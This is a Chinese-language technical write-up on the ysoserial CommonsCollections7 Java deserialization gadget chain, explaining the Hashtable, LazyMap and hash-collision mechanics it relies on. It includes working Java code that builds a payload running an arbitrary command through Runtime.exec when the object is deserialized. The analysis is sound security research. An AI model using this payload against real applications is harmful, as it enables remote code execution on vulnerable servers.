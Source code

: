 ```yaml
---
sidebar_position: 1
tags: [ysoserial, PPPYSO]
#slug: About Me
#title: About Me
---
```


# CommonsCollections7

## 0x01 Hashtable

CC7 是 CC6 的延伸，使用了另一个 kick-off `java.util.Hashtable` 去调用 `LazyMap`。Hashtable 也是 JDK 内置的集合，与 HashMap 的操作几乎一致，主要的区别在于 HashTable 为了实现多线程安全，在几乎所有的方法上都加上了 synchronized 锁，而加锁的结果就是 `HashTable` 操作的效率十分低下，因此是一个淘汰方法。

首先看 `readObject()` 方法，将 key 、value 序列化之后将调用 `reconstitutionPut()`  

![image-20230406172346827](attachments/image-20230406172346827.png)

进入 `reconstitutionPut()` 后会对 key 调用 hashCode() 方法，之后会调用 `hashCode()` 方法，那么就和 HashMap 的利用流程类似了

![image-20230406173537743](attachments/image-20230406173537743.png)

写出来的结果如下

```java
public Hashtable getObject(final String command) throws Exception {

    // Reusing transformer chain and LazyMap gadgets from previous payloads
    final String[] execArgs = new String[]{command};

    final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});

    final Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                    new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke",
                    new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec",
                    new Class[]{String.class},
                    execArgs),
            new ConstantTransformer(1)};

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    TiedMapEntry entry = new TiedMapEntry(lazyMap, "Whoopsunix");

    Hashtable hashtable = new Hashtable();
    hashtable.put(entry, "Whoopsunix");

    lazyMap.clear();

    Reflections.setFieldValue(transformerChain, "iTransformers", transformers);

    return hashtable;
}
```

## 0x02 ysoserial 怎么做的

再来看看 ysoserial 的实现方式，先跟进一下调用链。从 `readObject()` 进入 `Hashtable#reconstitutionPut()` 后，这时候 `tab` 为 null ，并不会进入循环。

![image-20230406235801783](attachments/image-20230406235801783.png)

所以 CC7 往 `Hashtable` 添加了 两个元素，二次进入  `Hashtable#reconstitutionPut()` 时由于 `tab` 数组中已存在第一次插入的元素，那么第二次在 `tab` 取到同为 `index` 下标的元素时将调用 `e.key.equals(key)`，这点我们也可以看到与 lazyMap 中的 `ChainedTransformer` 不相关。

![image-20230407114747157](attachments/image-20230407114747157.png)

![image-20230406235624985](attachments/image-20230406235624985.png)

最终通过 `AbstractMap#equals()` 来调用 `LazyMap.get()` 

![image-20230406235341092](attachments/image-20230406235341092.png)

到目前为止的思路，只要将 `LazyMap` 放到 `Hashtable` 中就行了，但实际上这条链子比想象的要复杂，我们看 ysoserial 的操作，其中一些细节的处理还需要继续分析。

![image-20230407000935377](attachments/image-20230407000935377.png)

## 0x03 LazyMap 为什么 put yy 和 zZ ？

前面我们提到会二次进入 `Hashtable#reconstitutionPut()` ，因为第二次 `tab[index]` 元素存在所以能调用 `equals()` ，index 值通过计算字符的hash得到，那么为什么不能 put 两个相同的值？

![image-20230407101519492](attachments/image-20230407101519492.png)

因为在进入 `Hashtable#readObject()` 时，会计算元素的个数，两个元素相同 elements 为1 就无法二次进入了。

![image-20230407101835655](attachments/image-20230407101835655.png)

所以这个问题的原因也就显而易见是一个 [hash碰撞问题](https://www.jianshu.com/p/9ad7fdb46efb) ，俩字符串 hashCode() 相同。类似的字符还有很多，比如 `Aa BB`、`3Qj 42j`、`三个 上下`

![image-20230407103337102](attachments/image-20230407103337102.png)

## 0x04 lazyMap2.remove("yy") 的原因？

把 `remove()` 注释掉后再调试，发现在 `AbstractMap#equals()` 中 `m.size() != size()` 返回 false ，所以无法继续下面的调用。

![image-20230407110442010](attachments/image-20230407110442010.png)

而我们对 `equals()` 打断点后会发现在执行  `hashtable.put(lazyMap2, 2)` 时会再进入一次。

![image-20230407110727085](attachments/image-20230407110727085.png)

因为执行 `put()` 方法时也是类似的原理， `hashtable.put(lazyMap2, 2)` 时，即二次进入时会从 `tab[index]` 中取先前放进去的 `hashCode` 相同的 `yy`，并以此执行一次 `equals()` ，

![image-20230407113856218](attachments/image-20230407113856218.png)

在进入 `LazyMap.get()` 时，因为我们是构造好后再通过反射修改 `iTransformers` ，所以这时 value 会直接返回我们传入的 key 值 `yy`。

![image-20230407113527301](attachments/image-20230407113527301.png)

所以最终 map 中会多一个 `yy yy` 的值，需要 remove()

![image-20230407112953974](attachments/image-20230407112953974.png)

## 0x05 Gadget Chain

```
Hashtable.readObject()
   TiedMapEntry.hashCode()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                    InvokerTransformer.transform()



Hashtable.readObject()
   AbstractMap.equals()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                    InvokerTransformer.transform()
```
